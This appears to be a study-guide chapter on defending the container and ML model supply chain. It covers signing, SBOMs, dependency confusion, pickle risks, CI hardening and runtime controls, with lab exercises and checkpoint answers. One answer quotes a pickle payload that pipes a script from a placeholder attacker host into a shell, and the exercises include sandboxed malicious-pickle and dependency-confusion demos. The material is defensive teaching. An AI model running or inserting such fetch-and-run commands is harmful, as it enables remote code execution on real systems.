First, run the self-checking Python lab (`code/part05/supply_chain_policy_verifier_lab.py`) locally. It verifies the Sigstore/Cosign keyless OIDC signature and SLSA provenance verifier with `mutateDigest` (`verify_image_signature_and_mutate_digest`), the `PK` Chapter 15 quarantine-to-approved registry promotion and VEX CVE suppression engine (`evaluate_quarantine_image_promotion`), and the AI model (`safetensors` vs pickle) and Python `--require-hashes` / dependency-confusion auditor (`audit_ml_model_and_pip_supply_chain`).

```bash
python3 code/part05/supply_chain_policy_verifier_lab.py
```

Next, on a cluster with BuildKit, `cosign`, `syft`, `trivy`/`grype`, and Kyverno (all interactive shell steps below are `untested here`), work through these exercises:

1. **Scan and SBOM**: build a PyTorch-based image; generate SPDX/CycloneDX SBOMs with Syft; scan with Trivy and Grype; compare findings; triage a CVE with VEX; show how a PyTorch-bundled CUDA library appears.
2. **Hash-pinned Python**: create `requirements.in`, compile with hashes, install with `--require-hashes`; swap a wheel on a mirror to prove failure; configure a private index and demonstrate dependency confusion (in a sandbox) and the fix (single index, name reservation).
3. **Keyless signing in CI**: GitHub Actions with OIDC: build, push, `cosign sign`, `cosign attest` SBOM and provenance; verify locally with identity constraints; inspect Rekor entry; tamper with the image tag and show verification failure.
4. **Admission enforcement**: deploy Kyverno (or policy-controller) with verifyImages; start in Audit, review reports; switch to Enforce; test an unsigned image, a signed-by-wrong-identity image, and an allowed one; test init containers and Deployment updates.
5. **SLSA provenance**: use the SLSA generator or BuildKit provenance; verify with `slsa-verifier`; add a policy condition on builder identity and source repo.
6. **Promotion pipeline**: mirror an NGC/community image into quarantine, scan, sign, promote; make the cluster accept only the approved repo; update the image and re-run end-to-end; measure time.
7. **Hermetic build**: build with BuildKit using an internal proxy and `--network=none` for the compile stage; show a build that tries to `curl` the Internet failing; compare reproducibility with `diffoscope`.
8. **Model supply chain**: craft a malicious pickle (harmless payload) and show `torch.load` execution vs `weights_only=True` vs safetensors; scan with modelscan; sign a model artefact with model-signing/cosign and verify before serving in an init container; block `trust_remote_code` via policy.
9. **Egress control**: run a "compromised dependency" simulation (a package that tries to call an external URL and read env/secrets); show default-deny egress NetworkPolicy and runtime detection (Falco/Tetragon) catching it; rotate the exposed secret.
10. **Inventory & incident drill**: collect all running image digests and SBOMs into Dependency-Track/GUAC; answer "which workloads include package X version Y?" quickly; run a drill for a hypothetical critical CVE and measure time to inventory, patch, rebuild, redeploy.
11. **CI hardening review**: audit a GitHub Actions workflow set: unpinned actions, `pull_request_target`, broad `GITHUB_TOKEN`, secrets exposure; fix using SHA pins, least-privilege permissions, environment protections, OIDC; run `zizmor`/`actionlint`/Scorecard.
12. **Policy as code tests**: unit-test Kyverno policies with `kyverno test` and fixtures in CI (4.13).
13. **Clean up**.

## 13. Common mistakes

- Scanning without acting; or blocking on every finding without context and getting policy disabled.
- Signing tags or "trusting any valid signature" instead of binding to the expected identity and digest.
- Leaving a fail-open admission webhook that can be bypassed under load; verifying only the main containers (not init/ephemeral).
- Public indexes in production builds; `--extra-index-url`; no hashes; installing from the Internet at container start.
- Pulling base images directly from public registries in prod builds; mutable tags; no rebuild cadence.
- Treating SBOMs as compliance paperwork rather than an operational inventory; not storing them with digests.
- Long-lived CI secrets and cluster credentials in CI; self-hosted runners with persistent state.
- Loading pickled models from unknown sources; `trust_remote_code=True` by default; downloading models at runtime.
- Ignoring GPU stack and inference-server CVEs; exposing management endpoints.
- No inventory of what is running, so incident scoping takes days.

## 14. Interview angles

- "Walk me through securing the supply chain for container images in a Kubernetes cluster."
- "What is SLSA? What are provenance and attestations? How do you verify them in the cluster?"
- "How does cosign keyless signing work? What are Fulcio and Rekor?"
- "What's in an SBOM and how do you use it during a Log4Shell-type event?"
- "How do you defend against dependency confusion and typosquatting in Python?"
- "Why are pickled models dangerous? What are the alternatives and controls?"
- "How would you design an image promotion pipeline for third-party GPU images?"
- "How do you respond if a CI token was leaked and malicious images were pushed?"

## Exercises

1. **The End-to-End AI Software Supply Chain Threat Model (`Source -> Build -> Dependencies -> Registry -> Deploy -> Runtime`):** Map the six attack vectors in Section 1 (`A1..A6`) to real-world supply-chain incidents (SolarWinds, Codecov, `xz`, dependency confusion, malicious pickle models, leaked CI tokens) and state the defensive control at each stage.
2. **The Golden Base Images Antipattern, Cloud Native Buildpacks, and In-Cluster `Tekton` Build Pipelines (`PK` Chapter 15):** Using `evaluate_quarantine_image_promotion()` in `code/part05/supply_chain_policy_verifier.py`, explain why forcing teams to rebase all third-party/vendor images onto a single corporate OS base image fails (`PK` Ch. 15), how the Quarantine-to-Approved promotion pipeline replaces it, and trace the Tekton `git-clone` `Task`, `buildpacks-phases` `Task`, and `clone-and-buildpack` `Pipeline` manifests in Section 3.
3. **`SLSA` Build Levels (`L1–L3`), `in-toto` Attestations, `SBOM`s (`SPDX`/`CycloneDX`), and `VEX`-Driven CVE Triage:** Explain the difference between SLSA Build L1, L2, and L3, how `Syft` generates SBOMs attached via `cosign attest --type spdxjson`, and how **VEX (`Vulnerability Exploitability eXchange`)** suppresses false-positive/un-exploitable CVE alerts with documented justification while blocking unmitigated fixable Critical/High CVEs.
4. **Keyless Signing with `Sigstore` (`cosign`, `Fulcio`, `Rekor`), `Notary v1` `GUN` Limitations (`PK` Ch. 15), and Admission Enforcement (`Kyverno` `verifyImages`):** Using `verify_image_signature_and_mutate_digest()` in `code/part05/supply_chain_policy_verifier.py`, trace the `require-signed-images-and-provenance` Kyverno `ClusterPolicy` in Section 5, explaining how Fulcio binds a short-lived X.509 cert to the GitHub Actions OIDC token and logs it in Rekor, why Notary v1's Globally Unique Name (`GUN`) broke across registry mirrors (`PK` Ch. 15), and why `mutateDigest: true` is mandatory.
5. **Securing the Python/CUDA Dependency Chain (`--require-hashes`, `--only-binary=:all:`, Private Index vs. `--extra-index-url` Dependency Confusion):** Using `audit_ml_model_and_pip_supply_chain()` in `code/part05/supply_chain_policy_verifier.py`, explain how a public PyPI package with a higher version number hijacks an internal package name when `--extra-index-url` is used, and design a hermetic multi-stage Python/CUDA build (`uv pip compile --generate-hashes` + `pip install --require-hashes --only-binary=:all:` + BuildKit `--network=none`).
6. **AI Model and Dataset Supply Chain (`safetensors` vs. `pickle`, `weights_only=True`, `trust_remote_code=False`, OpenSSF `model-signing`) and Supply-Chain Incident Response:** Explain why Python `pickle` (`.pt`/`.bin`/`.pkl`) executes arbitrary code inside `__reduce__` during `torch.load()`, how `safetensors` and `model-signing` / OCI model artifacts (`ORAS`/`KitOps`) secure model weights, and walk through the 6-step incident response playbook in Section 10 for a zero-day CVE or leaked CI signing token.

## Checkpoint questions (20)

<details>
<summary>1. What is the difference between SLSA Build Level 1, Level 2, and Level 3?</summary>

- **SLSA Build L1 (Provenance Exists):** The build process automatically generates machine-readable provenance metadata (`https://slsa.dev/provenance/v1`) listing what inputs and commands produced the artifact, though it is not yet cryptographically protected against tampering on the build host.
- **SLSA Build L2 (Hosted & Signed Provenance):** Builds run on a hosted build service (not a developer's laptop), and the build service cryptographically signs the provenance attestation so consumers can verify its authenticity.
- **SLSA Build L3 (Hardened, Isolated Build Platform):** Builds run in **ephemeral, isolated environments** (one VM/sandbox per build, destroyed immediately afterward) where user-defined build steps **cannot access or forge the signing keys** used by the control plane to sign provenance (**non-falsifiable provenance**).
</details>

<details>
<summary>2. In *Production Kubernetes* Chapter 15, what is the "Golden Base Images Antipattern", and what architecture should replace it for third-party/vendor images?</summary>

- **The Golden Base Images Antipattern:** Requiring platform or application teams to take every third-party or vendor container image (such as Postgres, Redis, Envoy, or NVIDIA NGC bases) and manually rebase/repackage its binaries onto a single corporate OS base image (e.g., a hardened corporate RHEL/CentOS image). This breaks upstream libc/library assumptions, duplicates upstream testing, and creates a massive maintenance bottleneck where images rarely get updated—leaving the cluster running *older, more vulnerable* software.
- **The Replacement Architecture (`PK` Chapter 15):** Use curated minimal bases (`gcr.io/distroless/base` with `USER nonroot:nonroot` or pinned Alpine/Wolfi) for your own **first-party code**, and route **third-party/vendor images** through an automated **Quarantine-to-Approved Image Promotion Pipeline**: mirror the upstream digest into a `quarantine` repo -> run automated CVE/license/user-ID scans -> sign passing digests with your organization's key -> promote to the `approved` repo trusted by cluster admission.
</details>

<details>
<summary>3. In `PK` Chapter 15, how do `Tekton` (`Task`, `Pipeline`, `Workspace`, `Results`) and `Cloud Native Buildpacks` (`/cnb/lifecycle/builder`) build container images inside Kubernetes without a privileged Docker daemon?</summary>

- **Tekton:** Models CI/CD pipelines as Kubernetes CRDs (`Task`, `Pipeline`, `TaskRun`, `PipelineRun`). A `git-clone` `Task` clones the repository onto a PVC-backed **`Workspace`** (`shared-workspace`) and writes the exact Git commit SHA into **`$(results.commit.path)`** so downstream tasks and provenance generators consume the immutable commit SHA rather than a moving branch ref.
- **Cloud Native Buildpacks (`buildpacks-phases` `Task` running `/cnb/lifecycle/builder`) / Kaniko / BuildKit rootless:** Detects the application language, compiles the source code, and assembles OCI image layers directly in user space and pushes the image to the registry—**never mounting `/var/run/docker.sock` or requiring `privileged: true` on the build node**.
</details>

<details>
<summary>4. In `PK` Chapter 15, why did Notary v1 (`Docker Content Trust`) struggle in multi-registry and edge-cache environments, and how do `cosign` / `Notary v2 (notation)` solve it?</summary>

Notary v1 identified every signed image by a **Globally Unique Name (`GUN`)** that embedded the **exact registry hostname URL** (`docker.io/acme/app`). If you mirrored or cached that image in an internal Harbor registry or regional pull-through cache (`harbor.internal/acme/app`), Notary v1 signature verification failed because the registry URL did not match the GUN.
**`cosign` (Sigstore)** and **`notation` (Notary v2)** sign the **content-addressable SHA-256 manifest digest (`@sha256:...`)** and store the signature and attestations as **OCI 1.1 Referrers / artifacts** alongside the image layers—so copying an image across regional or air-gapped registries (`cosign copy` / `oras cp` / Harbor replication) preserves the cryptographic signature seamlessly.
</details>

<details>
<summary>5. Walk through how `cosign` "Keyless Signing" works in GitHub Actions or GitLab CI using `OIDC`, `Fulcio`, and `Rekor`.</summary>

1. **OIDC Identity Token:** The CI job requests a short-lived OpenID Connect (`OIDC`) JWT from the CI provider (`https://token.actions.githubusercontent.com`) whose claims prove the exact repository, workflow file path (`.github/workflows/release.yml`), and Git ref (`refs/tags/v1.2.0`).
2. **Ephemeral Keypair & `Fulcio` Certificate:** `cosign sign` generates a one-time **ephemeral public/private keypair in memory** and sends the public key + OIDC JWT to **Fulcio** (Sigstore's Certificate Authority). Fulcio verifies the OIDC JWT and issues a **short-lived X.509 code-signing certificate (valid for ~10 minutes)** binding the ephemeral public key to the CI workflow's OIDC identity in the certificate's SAN extension.
3. **Sign & Log in `Rekor`:** `cosign` signs the image digest with the ephemeral private key, records the signature and certificate in **Rekor** (an append-only, tamper-evident transparency log with a signed timestamp proving the signature was created while the 10-minute certificate was valid), and **immediately discards the ephemeral private key from memory**. No long-lived signing private key ever exists to be stolen.
</details>

<details>
<summary>6. Why is verifying "any valid Cosign signature" (`subjectRegExp: ".*"`) a critical security mistake in a Kyverno or `policy-controller` admission rule?</summary>

In public Sigstore keyless signing, **anyone on the internet with a GitHub, Google, or Microsoft account can obtain a valid Fulcio certificate for their own identity and sign any container image**. If your admission policy only checks that a valid Fulcio signature exists without restricting **`issuer`** (`https://token.actions.githubusercontent.com`) **AND `subject` / `subjectRegExp`** (`^https://github.com/acme/.+/.github/workflows/release\.yml@refs/tags/v.*$`), an attacker's personal GitHub workflow signature will pass admission. Always pin both the exact OIDC `issuer` and your organization's trusted workflow `subjectRegExp`.
</details>

<details>
<summary>7. What is an `in-toto` Attestation (`DSSE`), and how does it differ from a plain image signature?</summary>

- **Plain image signature (`cosign sign`):** Only proves: *"Identity X signed image digest `sha256:abc...`."*
- **`in-toto` Attestation (`cosign attest`, wrapped in a Dead Simple Signing Envelope `DSSE`):** A signed, structured JSON statement binding a **Subject** (the image digest `sha256:abc...`) to a typed **Predicate** containing verifiable metadata about the artifact, such as:
  - **`https://slsa.dev/provenance/v1`:** Exact Git commit SHA, builder ID, workflow inputs, and build timestamps.
  - **`https://spdx.dev/Document` or `https://cyclonedx.org/bom`:** Full Software Bill of Materials (SBOM).
  - **`https://cosign.sigstore.dev/attestation/vuln/v1`:** Signed vulnerability scan report.
Admission controllers (Kyverno `attestations.conditions`) can inspect fields inside the signed predicate (e.g., requiring `buildDefinition.buildType` and `resolvedDependencies` to match corporate policy) before admitting a Pod.
</details>

<details>
<summary>8. Compare `SPDX` and `CycloneDX` SBOM formats, and explain how an SBOM + `VEX` (Vulnerability Exploitability eXchange) work together during CVE triage.</summary>

- **`SPDX` (Linux Foundation / ISO/IEC 5962)** and **`CycloneDX` (OWASP, with native `ML-BOM` and `VEX` extensions)** are the two standard machine-readable SBOM formats listing every OS package, Python wheel, Go module, and shared library inside an image.
- **How `VEX` prevents alert fatigue:** A 15 GB PyTorch/CUDA image often contains hundreds of OS/library packages that a scanner flags with CVEs—even when the vulnerable function is never called or the CLI tool is unreachable at runtime. Instead of disabling the scanner or ignoring all alerts, security engineers publish a signed **VEX document (`OpenVEX` / `CycloneDX VEX`)** marking specific `(image_digest, CVE-ID)` pairs as **`not_affected`** with a machine-readable justification (`component_not_present`, `vulnerable_code_not_in_execute_path`), so CI and registry gates automatically suppress known non-exploitable findings while still blocking new real CVEs.
</details>

<details>
<summary>9. Why do standard container CVE scanners (`Trivy`, `Grype`, `Clair`) sometimes miss vulnerable C/C++/CUDA libraries inside AI/ML images, and how do you address it?</summary>

Standard scanners primarily inspect **OS package manager databases** (`/var/lib/dpkg/status`, `/var/lib/rpm`) and **language metadata files** (`*.dist-info/METADATA` in Python `site-packages`). However, in AI/ML containers:
- Large Python wheels (`torch`, `triton`, `flash-attn`, `tensorrt`) **bundle statically linked or vendored `.so` shared libraries** (`libcudnn.so`, `libnccl.so`, `libssl.so`) inside the wheel without registering them in `dpkg`/`rpm`.
- Custom C++/CUDA extensions compiled from source leave no package manager record.
**Mitigations:** Use `syft` / `trivy` binary/file analyzers, generate SBOMs *during* the build process where all source/wheel inputs are known, and rebuild atop patched vendor base images (`nvcr.io/nvidia/pytorch:24.xx`) on a monthly cadence.
</details>

<details>
<summary>10. Explain the "Dependency Confusion" attack on Python `pip` installs, and why passing `--extra-index-url` to an internal PyPI server is dangerous.</summary>

Suppose your company has an internal private Python package named `acme-llm-utils==1.2.0` hosted on your internal index, and a Dockerfile runs:
`pip install --extra-index-url https://pypi.internal.acme.com/simple acme-llm-utils`
Because `--extra-index-url` tells `pip` to query **BOTH public `pypi.org` AND your internal index and install whichever index offers the HIGHEST version number**, an attacker who registers `acme-llm-utils==99.0.0` on public `pypi.org` causes `pip` to download and execute the attacker's public package instead of your internal `1.2.0` package.
**Three mandatory defenses:**
1. **Never use `--extra-index-url`:** Use **`--index-url https://pypi.internal.acme.com/simple`** pointing *exclusively* to your internal repository manager (Artifactory / Nexus / devpi), which proxies vetted public packages and blocks external shadowing of internal prefixes.
2. **Use `--require-hashes` with hash-pinned lockfiles (`uv pip compile --generate-hashes`):** Any wheel whose SHA-256 hash does not match the lockfile is rejected immediately.
3. **Use `--only-binary=:all:`:** Forbids `pip` from downloading source tarballs (`sdist`) and executing arbitrary `setup.py` code during installation.
</details>

<details>
<summary>11. Why is loading a PyTorch checkpoint with default `torch.load("model.pt")` (Python `pickle`) a Remote Code Execution (`RCE`) vulnerability, and what are the three safe alternatives?</summary>

Traditional PyTorch `.pt` / `.bin` / `.pkl` files are **Python `pickle` streams**. The `pickle` virtual machine allows any pickled object to define a **`__reduce__` method** specifying an arbitrary Python callable and arguments—such as `(os.system, ("curl https://attacker.com/shell.sh | sh",))`—which executes **the instant `torch.load()` unpickles the file**, before the model is even returned.
**Three safe practices:**
1. **Use `safetensors` (`model.safetensors`, Hugging Face / MLCommons standard):** Stores a plain JSON header (tensor names, dtypes, shapes, byte offsets) followed by raw flat tensor bytes. **Zero code execution is possible by design**, and weights can be zero-copy `mmap`-loaded directly to CPU/GPU.
2. **Pass `weights_only=True` in `torch.load("model.pt", weights_only=True)`** (default in PyTorch 2.6+), which restricts the unpickler to primitive tensor data types only.
3. **Scan untrusted model artifacts in quarantine** with **`modelscan` / `fickling`** before promotion.
</details>

<details>
<summary>12. What does `trust_remote_code=True` in Hugging Face `transformers` (`AutoModel.from_pretrained(..., trust_remote_code=True)`) do, and how do you govern it?</summary>

When `trust_remote_code=True` is passed, `transformers` downloads and **executes custom `.py` modeling/tokenizer files directly from the remote model repository** (`modeling_custom.py`). Even if the model weights are stored in `safetensors`, a malicious or compromised upstream commit in that `.py` file executes arbitrary code inside your training or inference container.
**Governance:**
- Never allow `trust_remote_code=True` against mutable branch refs (`main`) or public internet hubs at runtime.
- Mirror required model repos into your internal artifact store **pinned to an exact audited Git commit SHA (`revision="a1b2c3d..."`)**, review any `.py` files in the repo during quarantine promotion, and block direct internet egress to `huggingface.co` from production namespaces.
</details>

<details>
<summary>13. How do you sign and verify ML model weights and datasets using `OpenSSF model-signing` or OCI Model Artifacts (`ORAS` / `KitOps`)?</summary>

Two complementary approaches:
1. **OpenSSF `model-signing` (Sigstore):** Computes a cryptographic Merkle tree / manifest hash over every file in a model directory (`model.safetensors`, `config.json`, `tokenizer.json`), signs the manifest via Sigstore (`Fulcio`/`Rekor` or KMS key), and verifies the signature before the model server loads the directory.
2. **OCI Model Artifacts (`ORAS`, `KitOps`, or Kubernetes `image` volumes):** Packages model weights as OCI layers pushed to your container registry (`registry.example.com/models/llama-3-70b@sha256:...`), signed with **`cosign sign`**, and verified at Pod admission by the exact same Kyverno `verifyImages` policy used for container images.
</details>

<details>
<summary>14. Why must admission policies (`verifyImages`) check `initContainers` and `ephemeralContainers` in addition to `spec.containers`?</summary>

`initContainers` and `ephemeralContainers` (`kubectl debug`) run inside the **exact same Pod network namespace, mount the exact same Secret/PVC volumes, and use the exact same `ServiceAccount` token** as `spec.containers`. If an admission policy only validates `spec.containers`, an attacker can put a benign signed `pause` image in `spec.containers` and put an unsigned malicious image inside `spec.initContainers` (or attach an unsigned `ephemeralContainer`) to steal Secrets and data. Kyverno's `verifyImages` rule checks `containers`, `initContainers`, and `ephemeralContainers` by default—never disable those checks.
</details>

<details>
<summary>15. What are the two most dangerous GitHub Actions CI misconfigurations (`pull_request_target` and unpinned third-party Actions), and how do you fix them?</summary>

1. **`on: pull_request_target` checking out untrusted fork PR code:** Unlike `on: pull_request` (which runs with a read-only token and no secrets on fork PRs), `pull_request_target` runs in the context of the base repository **with write permissions and access to repository secrets**. If a workflow triggered by `pull_request_target` checks out and builds/tests the PR's head commit (`ref: ${{ github.event.pull_request.head.sha }}`), an external attacker opening a PR can exfiltrate all CI secrets and push malicious images.
2. **Referencing third-party GitHub Actions by mutable tag (`uses: some-org/action@v2`):** If `some-org` is compromised (like the `tj-actions/changed-files` incident), the attacker moves the `@v2` tag to malicious code that steals runner memory/secrets. **Always pin third-party Actions to a full 40-character immutable Git commit SHA** (`uses: actions/checkout@11bd71901bbe5b1630ceea73d27597364c9af683 # v4.2.2`) and audit workflows with **`zizmor`** and **`OpenSSF Scorecard`**.
</details>

<details>
<summary>16. How do you make a `Docker BuildKit` compile step hermetic (`RUN --network=none`), and why does it matter?</summary>

In a multi-stage `Dockerfile`:
1. **Stage 1 (`fetch`):** Downloads dependencies exclusively from your internal hash-verified mirror/proxy.
2. **Stage 2 (`build`):** Copies the fetched wheels/sources from Stage 1 and runs compilation with **`RUN --network=none pip install --no-index --find-links=/wheels --require-hashes -r requirements.txt`** (and `RUN --network=none make`).
Because `--network=none` unshares a network namespace with **only a loopback interface and zero external routes**, even if a compromised build script or compiler macro attempts to download a second-stage payload or exfiltrate source code during compilation, the network call fails immediately with `ENETUNREACH`.
</details>

<details>
<summary>17. In *Production Kubernetes* Chapter 15, why is Pull-Based GitOps (`Argo CD` / `Flux`) more secure for the software supply chain than Push-Based CI (`kubectl apply` from Jenkins/GitHub Actions)?</summary>

In a **Push-Based CI pipeline**, the CI server must hold **long-lived `cluster-admin` (or broad write) kubeconfig credentials** for every production Kubernetes cluster. If any build job, third-party CI plugin, or runner in the CI system is compromised, the attacker immediately gains direct write access to production clusters.
In a **Pull-Based GitOps architecture (`PK` Chapter 15)**, the CI pipeline only builds, scans, and signs the container image (and opens a PR bumping the image digest in the deployment Git repo). The **GitOps controller (`Argo CD` / `Flux`) running inside the cluster** pulls reviewed commits from Git—so **zero cluster credentials ever exist in CI**, and every deployment requires a signed, reviewed Git commit.
</details>

<details>
<summary>18. How do Runtime Security Controls (`readOnlyRootFilesystem: true`, Default-Deny Egress `NetworkPolicy`, and `Falco`/`Tetragon`) contain a compromised Python dependency that slipped past build checks?</summary>

Suppose a zero-day malicious dependency inside a training container executes at import time:
1. **`readOnlyRootFilesystem: true` + `allowPrivilegeEscalation: false` + `drop: ["ALL"]`:** The payload cannot modify `/usr`, `/lib`, or Python `site-packages` to persist itself, and cannot escalate privileges.
2. **Default-Deny Egress `NetworkPolicy`:** When the payload tries to open a reverse shell or POST stolen environment variables/weights to `https://attacker-c2.example.com`, the packet is **dropped at the CNI `veth`/eBPF filter** and logged in Hubble.
3. **`Tetragon` / `Falco` eBPF Runtime Detection:** Immediately detects the anomalous process tree (`python3 -> /bin/sh -> curl`) or unexpected file read (`/var/run/secrets/...`) and fires a high-priority security alert (or kills the process synchronously via Tetragon `TracingPolicy` `Sigkill` enforcement).
</details>

<details>
<summary>19. Since Sigstore `cosign` keyless signatures use short-lived 10-minute certificates that have already expired by the time the image runs in production, how do you "revoke" trust in a compromised build or leaked CI workflow?</summary>

In keyless Sigstore, a signature remains valid forever as long as its Rekor transparency-log timestamp falls within the Fulcio certificate's 10-minute validity window. Therefore, if a CI run was compromised and signed a malicious image digest `sha256:bad123...`:
1. **Block the specific compromised image digest(s)** immediately in your Kyverno / `policy-controller` admission deny-list and delete/quarantine the digest in your internal registry.
2. **If a KMS/keypair signing key was leaked:** Rotate to a new KMS key version (`versions/2`), update admission policies to trust only `versions/2`, and re-sign current approved production digests.
3. **If a keyless CI workflow was vulnerable before timestamp $T$:** Update the admission policy's `attestations.conditions` (or workflow path/tag pattern) to require provenance generated after the fix commit/timestamp.
</details>

<details>
<summary>20. During a "Log4Shell" or "xz"-style zero-day vulnerability disclosure, how do you identify every affected Pod across 10 GPU clusters in under 15 minutes?</summary>

Instead of slow, ad-hoc node scanning across thousands of running containers:
1. Query your **running image digest inventory** (`kubectl get pods -A -o jsonpath='{..imageID}'` or Prometheus `kube_pod_container_info`) to get the set of active `sha256:...` digests in every cluster.
2. Query your central **SBOM inventory database (`Dependency-Track`, `GUAC`, or OCI Registry SPDX/CycloneDX attestations)** for any SBOM containing `package == "xz" && version in ["5.6.0", "5.6.1"]`.
3. Intersect the two sets to produce an instant, exact list of `(cluster, namespace, deployment, pod, owner_team)` running the vulnerable library, create VEX/patch tickets, and trigger automated base-image rebuilds.
</details>

## Sources and review notes

- **Sources read in full:**
  - `production-kubernetes` — Josh Rosso, Rich Lander, Alexander Brand & John Harris, *Production Kubernetes*, **Chapter 15: Software Supply Chain** (read in full: multi-stage Dockerfile with `gcr.io/distroless/base` and `USER nonroot:nonroot`, Cloud Native Buildpacks `pack`, the Golden Base Images Antipattern, Tekton `git-clone` and `buildpacks-phases` `Task` and `Pipeline` manifests, container registries and `Clair`/`Trivy` CVE scanning, Notary v1 Globally Unique Name `GUN` limitations across mirrors, the Quarantine-to-Approved image promotion workflow, and Push-based vs Pull-based GitOps deployments with `Flagger` progressive delivery).
- **Run here:** `python3 code/part05/supply_chain_policy_verifier_lab.py` (3 passed, 0 failed).
- **Explicitly labelled inferences:** The `verify_image_signature_and_mutate_digest`, `evaluate_quarantine_image_promotion`, and `audit_ml_model_and_pip_supply_chain` models in `code/part05/supply_chain_policy_verifier.py` and the `require-signed-images-and-provenance` Kyverno `ClusterPolicy` and Quarantine-to-Approved promotion diagram are the author's constructions synthesizing `PK` Chapter 15 and SLSA/Sigstore/SPDX/CycloneDX/OpenSSF standards (plus original study items 21, 22, 23, 24, 25, 26, 27, 28, 29, 30, 31, 32, 33, 34, 35, 36, 37, 38, 39, and 40).
- **Not verified on live hardware:** Live `cosign`, `syft`, `trivy`, `grype`, `slsa-verifier`, `modelscan`, and `Tekton` executions (`L1-L3` SLSA, `SP 800-218`, `EO 14028`, `OCI 1.1`, `alpine:3.12`, `imagemagick=7.0.10.25-r0`, `git-init:v0.12.1`, `webhookTimeoutSeconds: 15`, `torch 2.6`) are marked (`untested here`) where not executed by `supply_chain_policy_verifier_lab.py`.
